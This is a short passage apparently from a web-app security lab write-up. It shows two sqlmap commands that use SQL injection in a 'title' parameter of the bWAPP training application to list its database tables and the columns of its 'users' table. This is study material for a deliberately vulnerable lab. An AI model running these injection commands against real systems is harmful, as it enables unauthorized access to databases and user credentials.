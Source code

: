 
```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables
```

![SQLMap Tables](1-webapp-httpassets/image-20230504193116155.png)

- Use `sqlmap` to get a list of columns in the `users` table of the `bWAPP` database

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns
```

![SQLMap Columns](1-webapp-httpassets/image-20230504193222954.png)
